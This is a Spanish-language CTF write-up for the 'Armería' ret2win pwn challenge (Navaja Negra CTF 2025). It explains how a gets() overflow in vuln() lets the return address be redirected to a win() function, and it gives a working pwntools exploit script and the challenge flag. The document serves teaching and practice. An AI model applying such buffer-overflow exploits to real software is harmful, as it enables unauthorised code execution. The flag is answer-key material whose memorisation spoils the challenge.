

# Armería 

> Navaja Negra CTF 2025

> 02/10/2025 09:00 CEST - 04/10/2025 11:00 CEST

* Categoría: Pwn
* Autor: M0nk3st 
* Dificultad: ☆
* Etiquetas: ret2win

## Descripción

    Entre tantas armas blancas hay una que siempre destaco como mi favorita… ¿Sabrás adivinar cuál es?

## Archivos

    Armería

```
Binario ELF
```

## Resolución

En primer lugar, al decompilar el binario, encontramos una función `main`:

![[images/1.png]]

Dentro de `main` podemos observar una llamada interesante a una función `vuln()` que solo es accesible si nuestra respuesta a la pregunta que se nos plantea es navaja o Navaja.

Al analizar `vuln()`, notamos el uso de la función `gets()`, conocida por ser insegura. Esta función no valida el tamaño del buffer de destino y acepta todo el flujo de entrada estándar `stdin`, lo que abre la puerta a posibles desbordamientos de buffer.

![[images/2.png]]

Si continuamos con el análisis del binario, encontramos una función llamada `win`, cuya finalidad es mostrar en pantalla el contenido del archivo flag.txt, revelándonos así la flag. Por lo tanto, nuestro objetivo será redirigir el flujo de ejecución hacia esta función aprovechando la vulnerabilidad previamente identificada en `vuln()`.

![[images/3.png]]

Para este propósito utilizaré pwndbg, un depurador que, mediante funciones como `cyclic` y `cyclic -l`, me permitirá identificar el offset exacto en el registro RSP. De esta manera podré determinar el punto en el que es posible tomar el control del flujo de ejecución del binario.



Al identificar el offset que nos permite sobrescribir el registro RSP, obtenemos la capacidad de manipular el flujo de ejecución del programa. Esto se debe a que, cuando ocurre un desbordamiento de buffer, los datos que escribimos sobre la pila reemplazan la dirección de retorno almacenada en ella.

Si logramos sustituir esa dirección de retorno por la dirección de la función `win`, el programa, en lugar de regresar a la ejecución normal después de `vuln()`, saltará directamente a `win`. De esta manera, el control del RSP nos permite redirigir la ejecución y forzar al binario a mostrarnos la flag contenida en flag.txt.

```python
from pwn import *  

context.binary = './Armeria'  
elf = context.binary  
p = process(elf.path)  
  
offset = 72  
win_addr = p64(0x401262)  
ret = p64(0x401016)
payload = b"A" * offset + ret + win_addr  
  
p.sendline(b"navaja")  
p.sendlineafter("es tu modelo favorito de navaja?",payload)  
output = p.recvall(timeout=1)  
print("OUTPUT DEL BINARIO:")  
print(output.decode(errors="ignore"))  
p.interactive()
```

> **flag: nnctf{3n_V3rd4d_S0l0_S3_D3_PWN}**